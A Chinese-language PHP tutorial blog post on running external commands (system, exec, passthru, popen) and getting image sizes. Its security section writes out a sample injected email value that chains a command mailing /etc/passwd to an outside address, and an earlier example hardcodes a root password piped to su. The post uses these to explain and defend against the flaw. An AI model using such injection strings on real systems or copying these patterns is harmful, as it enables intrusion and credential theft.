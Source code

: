 # [PHP高级语法总结][0]

2月15日发布 

[TOC]

> php高级语法总结。

## 一、执行系统外部命令

1. system() 输出并返回最后一行shell结果。
1. exec() 不输出结果，返回最后一行shell结果，所有结果可以保存到一个返回的数组里面。
1. passthru() 只调用命令，把命令的运行结果原样地直接输出到标准输出设备上。

相同点：都可以获得命令执行的状态码

### 1）用PHP提供的专门函数

PHP提供共了3个专门的执行外部命令的函数：system()，exec()，passthru()。 

**system()**  
原型：string system (string command [, int return_var])  
system()函数很其它语言中的差不多，它执行给定的命令，输出和返回结果。第二个参数是可选的，用来得到命令执行后的状态码。   
例子：   

```php
    <?php 
    system("/usr/local/bin/webalizer/webalizer"); 
    ?>
```

**exec()**  
原型：string exec (string command [, string array [, int return_var]])  
exec ()函数与system()类似，也执行给定的命令，但不输出结果，而是返回结果的最后一行。虽然它只返回命令结果的最后一行，但用第二个参数array 可以得到完整的结果，方法是把结果逐行追加到array的结尾处。所以**如果array不是空的，在调用之前最好用unset()最它清掉**。只有指定了第二 个参数时，才可以用第三个参数，用来取得命令执行的状态码。

```php
    <?php 
    exec("/bin/ls -l"); 
    exec("/bin/ls -l", $res); 
    exec("/bin/ls -l", $res, $rc); 
    ?>
```

我们可以exec()这个方法获取服务器端的IP

    // 注意：ipconfig是Windows下的查看命令，而Linux为ifconfig命令
    exec('ifconfig -a', $arr);
    print_r($arr);

**passthru()**  
原型：void passthru (string command [, int return_var])  
passthru ()只调用命令，不返回任何结果，但把命令的运行结果原样地直接输出到标准输出设备上。所以passthru()函数经常用来调用象pbmplus （Unix下的一个处理图片的工具，输出二进制的原始图片的流）这样的程序。同样它也可以得到命令执行的状态码。   
例子：   

```php
    <?php 
    header("Content-type: image/gif"); 
    passthru("./ppmtogif hunte.ppm"); 
    ?>
```

### 2） 用popen()函数打开进程

上面的方法只能简单地执行命令，却不能与命令交互。但有些时候必须向命令输入一些东西，如在增加Linux的系统用户时，要调用su来把当前用户换到root才行，而su命令必须要在命令行上输入root的密码。这种情况下，用上面提到的方法显然是不行的。 

popen ()函数打开一个进程管道来执行给定的命令，返回一个文件句柄。既然返回的是一个文件句柄，那么就可以对它读和写了。在PHP3中，对这种句柄只能做单一 的操作模式，要么写，要么读；从PHP4开始，可以同时读和写了。除非这个句柄是以一种模式（读或写）打开的，否则必须调用pclose()函数来关闭 它。   
例子1：   

```php
    <?php 
    $fp=popen("/bin/ls -l", "r"); 
    ?>
```

示例2：

```php
    <?php 
    /* PHP中如何增加一个系统用户 
    下面是一段例程，增加一个名字为james的用户, 
    root密码是 verygood。仅供参考 
    */ 
    $sucommand = "su --login root --command"; 
    $useradd = "useradd "; 
    $rootpasswd = "verygood"; 
    $user = "james"; 
    $user_add = sprintf("%s "%s %s"",$sucommand,$useradd,$user); 
    $fp = @popen($user_add,"w"); 
    @fputs($fp,$rootpasswd); 
    @pclose($fp); 
    ?>
```

### 3）系统命令实际项目中应用示例

    //查找到php安装位置
    $phpcmd = exec("which php");
    print_r($phpcmd);
    // 输出结果  /usr/bin/php   
    
    $arr = array();
    $ret = exec("/bin/ls -l", $arr); 
    print_r($ret);
    print_r($arr);
    

### 4)使用外部命令需要注意的安全性

比如，你有一家小型的网上商店，所以可以出售的产品列表放在一个文件中。你编写了一个有表单的HTML文件，让你的用户输入他们的EMAIL地 址，然后把这个产品列表发给他们。假设你没有使用PHP的mail()函数（或者从未听说过），你就调用Linux/Unix系统的mail程序来发送这 个文件。程序就象这样：   

```php
    <?php 
    system("mail $to < products.txt"); 
    echo "我们的产品目录已经发送到你的信箱：$to"; 
    ?>
```

用这段代码，一般的用户不会产生什么危险，但实际上存在着非常大的安全漏洞。如果有个恶意的用户输入了这样一个EMAIL地址：

    '--bla ; mail someone@domain.com < /etc/passwd ;' 

那么这条命令最终变成：

    'mail --bla ; mail someone@domain.com < /etc/passwd ; < products.txt' 

我相信，无论哪个网络管理人员见到这样的命令，都会吓出一身冷汗来。   
幸 好，PHP为我们提供了两个函数：EscapeShellCmd()和EscapeShellArg()。函数EscapeShellCmd把一个字符串 中所有可能瞒过Shell而去执行另外一个命令的字符转义。这些字符在Shell中是有特殊含义的，象分号（），重定向（>）和从文件读入 （<）等。函数EscapeShellArg是用来处理命令的参数的。它在给定的字符串两边加上单引号，并把字符串中的单引号转义，这样这个字符串 就可以安全地作为命令的参数。   
再来看看超时问题。如果要执行的命令要花费很长的时间，那么应该把这个命令放到系统的后台去运 行。但在默认情况下，象system()等函数要等到这个命令运行完才返回（实际上是要等命令的输出结果），这肯定会引起PHP脚本的超时。解决的办法是 把命令的输出重定向到另外一个文件或流中，如：   

```php
    <?php 
    system("/usr/local/bin/order_proc > /tmp/null &"); 
    ?>
```

### 5)、高级命令实际项目中应用：

[自己实现异步执行任务的队列（二）][11]

    do_queue.php部分代码：
    
    $phpcmd = exec("which php");    //查找到php安装位置
    $cqueue = new Queue();
    $tasks = $cqueue->getQueueTask(200);
    foreach ($tasks as $t)
    {
        $taskphp = $t['taskphp'];
        $param = $t['param'];
        $job = $phpcmd . " " . escapeshellarg($taskphp) . " " . escapeshellarg($param);
        system($job);
    }

## 二、图片处理

### 1) 取得图像大小

array getimagesize ( string $filename [, array &$imageinfo ] )  
getimagesize() 函数将测定任何 GIF，JPG，PNG，SWF，SWC，PSD，TIFF，BMP，IFF，JP2，JPX，JB2，JPC，XBM 或 WBMP 图像文件的大小并返回图像的尺寸以及文件类型和一个可以用于普通 HTML 文件中 IMG 标记中的 height/width 文本字符串。

如果不能访问 filename 指定的图像或者其不是有效的图像，getimagesize() 将返回 FALSE 并产生一条 E_WARNING 级的错误。

[getimagesize()][12]官方文档说明。

示例，获取图片大小：

    $url = "http://img2.fengniao.com/product/157/367/ce0Ar9cBeSl2A.jpg";
    $ret = getimagesize($url);
    var_dump($ret);

打印结果：

    Array
    (
        [0] => 2100
        [1] => 1280
        [2] => 2
        [3] => width="2100" height="1280"
        [bits] => 8
        [channels] => 3
        [mime] => image/jpeg
    )

```php
    <?php
    $size = getimagesize($filename);
    $fp=fopen($filename, "rb");
    if ($size && $fp) {
      header("Content-type: {$size['mime']}");
      fpassthru($fp);
      exit;
    } else {
      // error
    }
    ?>
```

相关文章：  
[PHP 执行系统外部命令 system() exec() passthru()][13]  
[PHP中exec与system用法区别][14]

[0]: https://segmentfault.com/a/1190000008352884
[11]: https://segmentfault.com/a/1190000000525775
[12]: http://php.net/manual/zh/function.getimagesize.php
[13]: http://www.jb51.net/article/19618.htm
[14]: http://www.jb51.net/article/55455.htm
